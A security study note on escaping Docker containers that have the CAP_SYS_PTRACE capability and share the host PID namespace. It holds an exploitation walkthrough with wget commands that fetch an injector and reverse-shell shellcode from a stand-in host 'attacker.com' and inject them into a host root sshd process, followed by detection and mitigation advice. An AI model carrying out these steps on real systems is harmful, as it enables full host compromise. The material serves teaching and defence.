

# 06 - Container Escape — SYS_PTRACE Capability

## Introduction

Linux capabilities provide a robust mechanism to break down the monolithic `root` privilege into granular, distinct permissions. Docker drops most dangerous capabilities by default to secure the container environment. However, developers and administrators sometimes explicitly add specific capabilities back into a container using the `--cap-add` flag to support legacy applications, performance monitoring tools, or live debugging sessions.

The `CAP_SYS_PTRACE` capability is one of the most highly sought-after permissions for an attacker. Originally designed to allow tracing and debugging of arbitrary processes (used heavily by tools like `strace`, `gdb`, and `ltrace`), `CAP_SYS_PTRACE` gives a process the extraordinary ability to read and write directly to the memory of other processes and intercept their system calls.

If a container is granted `CAP_SYS_PTRACE` and is also configured to share the host's PID namespace (e.g., using `--pid=host`), it results in a guaranteed, highly reliable container escape. Even without the host PID namespace, `CAP_SYS_PTRACE` can be abused to bypass seccomp and AppArmor profiles or hijack higher-privileged processes within the same container.

## Vulnerability Mechanics

The core of the vulnerability lies in the `ptrace()` system call. When a process (the tracer) attaches to another process (the tracee) using `ptrace`, the tracer gains total control over the tracee's execution state. It can pause the tracee, read its CPU registers, modify them, and, most importantly, overwrite its memory space.

If an attacker in a container has `CAP_SYS_PTRACE` and can see a process running as host root (which is entirely possible if the container is run with `--pid=host`), the attacker can use `ptrace` to inject malicious shellcode into the executable memory of that host root process. When the host process resumes execution, it blindly executes the attacker's payload entirely outside the container's namespaces, achieving full host compromise.

### Attack Architecture Diagram



## Exploitation Walkthrough

To execute this escape successfully, two main conditions must be met:
1. The container has the `CAP_SYS_PTRACE` capability.
2. The container shares the host PID namespace (you can see processes outside the container).

### Step 1: Enumeration

First, verify your capabilities and namespace visibility.

```bash
# Check capabilities for ptrace
capsh --print | grep ptrace

# Check if you can see host processes.
# If you see systemd as PID 1, or processes like sshd, cron, or containerd, you share the host PID namespace.
ps aux
```

### Step 2: Selecting a Target Process

You need to identify a target process on the host that is running as `root`. Good candidates are background daemons that are relatively idle and won't crash the system if slightly disrupted, such as `cron`, `sshd`, `rsyslogd`, or a generic Python/Bash background script. Avoid targeting PID 1 (`systemd`) as crashing it will cause an immediate kernel panic.

```bash
ps aux | grep root
```
Let's assume we target an `sshd` process running with PID `1234`.

### Step 3: Process Injection via Ptrace

Writing a custom C program to perform `ptrace` injection requires manipulating CPU registers and allocating executable memory. Fortunately, many pre-built offensive tools automate this process. A classic example is `linux-injector` or simple C-based ptrace inject scripts found online.

Here is the conceptual flow of the injection program:
1. `ptrace(PTRACE_ATTACH, pid, NULL, NULL);` — Attach to the target process.
2. `waitpid(pid, &status, 0);` — Wait for the process to pause execution.
3. `ptrace(PTRACE_GETREGS, pid, NULL, &regs);` — Read current CPU registers to save the state.
4. Inject shellcode into the memory address pointed to by the Instruction Pointer (`regs.rip`).
5. `ptrace(PTRACE_SETREGS, pid, NULL, &regs);` — Update the Instruction Pointer if necessary.
6. `ptrace(PTRACE_DETACH, pid, NULL, NULL);` — Detach and let the process resume, executing the shellcode.

**Using an Automated Injector (Example):**

Assume we have compiled an injector binary (`ptrace_inject`) and generated a raw reverse shell payload (`shellcode.bin` using msfvenom).

```bash
# Upload injector and shellcode to the compromised container
wget http://attacker.com/ptrace_inject
wget http://attacker.com/shellcode.bin
chmod +x ptrace_inject

# Execute the injection against the host root process (PID 1234)
./ptrace_inject 1234 shellcode.bin
```

Once the `ptrace_inject` utility executes, the host process (e.g., `sshd`) will suddenly execute the reverse shell shellcode. Because `sshd` is running natively on the host OS as root, the resulting reverse shell will grant the attacker root access directly on the host, completely bypassing the container boundary.

## Advanced Scenario: Bypassing AppArmor/Seccomp

Even if the container *does not* share the host PID namespace, `CAP_SYS_PTRACE` is highly dangerous. If the container has strict AppArmor profiles or seccomp filters applied to the current shell, but the attacker shares the container with another process that has a looser profile or runs as a different user context, the attacker can use `ptrace` to inject shellcode into that sibling process.

This effectively allows the attacker to proxy commands through the sibling process, completely circumventing the security restrictions applied to their original bash shell, leading to further lateral movement within the cluster.

## Detection and Mitigation

### Detection
- **eBPF and Auditd:** The `ptrace` system call is relatively rare in production environments outside of explicit debugging scenarios. Security monitoring tools (like Falco, Tetragon, or Auditd) should be configured to generate high-severity alerts whenever `ptrace` is invoked, especially if the target PID belongs to a different user namespace or the host OS.
- **Process Memory Scanning:** Advanced EDR solutions can scan process memory for executable shellcode stubs commonly injected via ptrace.

### Mitigation
1. **Never grant CAP_SYS_PTRACE in production:** Debugging should be strictly restricted to development or staging environments. If debugging in production is absolutely necessary, use ephemeral debug containers (like Kubernetes Ephemeral Containers) rather than adding capabilities to the main application pod.
2. **Do not share PID Namespaces:** Avoid using `--pid=host` in Docker or `hostPID: true` in Kubernetes. Without the host PID namespace, `ptrace` is restricted only to processes within the container.
3. **Yama Security Module:** Modern Linux kernels use the Yama LSM to restrict ptrace scope. Ensuring `/proc/sys/kernel/yama/ptrace_scope` is set to `1` (restricted ptrace) or `2` (admin-only) can heavily mitigate unauthorized process injection attacks, even if the capability is present.

## Chaining Opportunities
- **AppArmor Bypass -> Ptrace Escapement:** Landing in a heavily restricted container, using `ptrace` to inject code into a sibling process that has a looser AppArmor profile, and using that process's capabilities to subsequently escape to the host.

## Related Notes
- [[01 - Docker Overview — Images, Containers, Registries]]
- [[04 - Container Escape — Privileged Container]]
